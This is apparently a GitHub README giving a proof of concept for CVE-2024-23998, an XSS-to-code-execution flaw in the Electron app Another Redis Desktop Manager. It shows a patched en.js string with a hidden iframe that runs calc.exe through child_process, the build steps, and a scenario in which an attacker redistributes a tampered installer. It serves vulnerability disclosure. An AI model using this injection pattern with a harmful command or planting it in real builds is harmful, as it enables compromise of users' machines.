



# Another Redis Desktop Manager PoC
A Proof-Of-Concept for CVE-2024-23998 vulnerability.
#### 1. Vunerability Overview:
* Vulnerability Subject: Local Code Excution via XSS
* Vulnerability Version: =< 1.6.6
* Attack Type: Remote Code Execution
* Attack Vectors: To exploit the vulnerability, we must patch font_faq html message for Setting function. When hovering the mouse over the font family help icon, malicious script in font_faq message execute and we can run OS command.
* Reserved CVE Number: CVE-2024-23998

#### 2. Vulnerability Cause:
Step 1) In Setting.vue, there is v-html function, so malicious JS script can run through this fucntion.\

<br><br>
Step 2) When we install Another Redis Desktop Manager, Windows security blocks the installation. Because of that, if an attacker patches the installation file, the user won't know it has been patched.\

<br><br>
Step 3) We can find font faq message in en.js file\

<br><br>
Step 4) Let's patch the message that execute calc.exe\
```
font_faq: '1. Multiple fonts can be set<br>\
    2. Font selection is orderly. It is suggested to choose English font first and then font in your language<br>\
    3. When the system font list cannot be loaded in some exceptional cases, you can enter the installed font name manually.\
    <iframe style="display:none;" onload="require(`child_process`).exec(`C:/Windows/System32/calc.exe`);"></iframe>',
```
<br><br>
Step 5) Build the program using npm.\
```
npm install --platform=win32
npm start
npm run electron
```
<br><br>
Step 6) When you hover mouse cursor on Font Famliy help icon, calculator is executed.


AnotherRedisDesktopManager is a good target for attackers because it is used by many people, and it is easy to modify and redistribute files distributed as Electron applications. That's why many projects recommend not using v-html if possible. Additionally, because the nodeIntegration option is enabled, if it is maliciously modified and distributed, remote code execution is possible with the permissions of AnotherRedisDesktopManager.